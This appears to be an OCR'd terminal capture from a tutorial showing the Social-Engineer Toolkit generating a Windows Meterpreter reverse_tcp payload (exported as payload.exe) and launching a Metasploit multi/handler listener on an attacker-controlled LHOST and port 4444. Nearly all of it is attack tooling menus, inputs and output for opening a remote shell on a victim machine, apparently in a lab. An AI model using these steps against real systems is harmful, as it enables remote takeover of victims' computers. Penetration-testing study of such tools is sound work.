 ```bash
  10) SMS Spoofing Attack Vector
  11) Third Party Modules

  99) Return back to the main menu.

set> 4


   1) Windows Shell Reverse_TCP               Spawn a command shell on victim and send back to attacker
   2) Windows Reverse_TCP Meterpreter         Spawn a meterpreter shell on victim and send back to attacker
   3) Windows Reverse_TCP VNC DLL             Spawn a VNC server on victim and send back to attacker
   4) Windows Shell Reverse_TCP X64           Windows X64 Command Shell, Reverse TCP Inline
   5) Windows Meterpreter Reverse_TCP X64     Connect back to the attacker (Windows x64), Meterpreter
   6) Windows Meterpreter Egress Buster       Spawn a meterpreter shell and find a port home via multiple ports
   7) Windows Meterpreter Reverse HTTPS       Tunnel communication over HTTP using SSL and use Meterpreter
   8) Windows Meterpreter Reverse DNS         Use a hostname instead of an IP address and use Reverse Meterpreter
   9) Download/Run your Own Executable        Downloads an executable and runs it

set:payloads>2
set:payloads> IP address for the payload listener (LHOST):192.168.175.128
set:payloads> Enter the PORT for the reverse listener:4444
[*] Generating the payload.. please be patient.
yes
[*] Payload has been exported to the default SET directory located under: /root/.set/payload.exe
set:payloads> Do you want to start the payload and listener now? (yes/no):[*] Launching msfconsole, this could take a few to load. Be patient...
                                                  

                 _---------.
             .' ####   ;."
  .---,.    ;@             @@`;   .---,..
." @@@@@'.,'@@            @@@@@',.'@@@@ ".
'-.@@@@@@@@@@@@@          @@@@@@@@@@@@@ @;
   `.@@@@@@@@@@@@        @@@@@@@@@@@@@@ .'
     "--'.@@@  -.@        @ ,'-   .'--"
          ".@' ; @       @ `.  ;'
            |@@@@ @@@     @    .
             ' @@@ @@   @@    ,
              `.@@@@    @@   .
                ',@@     @   ;           _____________
                 (   3 C    )     /|___ / Metasploit! \
                 ;@'. __*__,."    \|--- \_____________/
                  '(.,...."/


       =[ metasploit v5.0.1-dev                           ]
+ -- --=[ 1851 exploits - 1046 auxiliary - 321 post       ]
+ -- --=[ 541 payloads - 44 encoders - 10 nops            ]
+ -- --=[ 2 evasion                                       ]
+ -- --=[ ** This is Metasploit 5 development branch **   ]

[*] Processing /root/.set/meta_config for ERB directives.
resource (/root/.set/meta_config)> use multi/handler
resource (/root/.set/meta_config)> set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
resource (/root/.set/meta_config)> set LHOST 192.168.175.128
```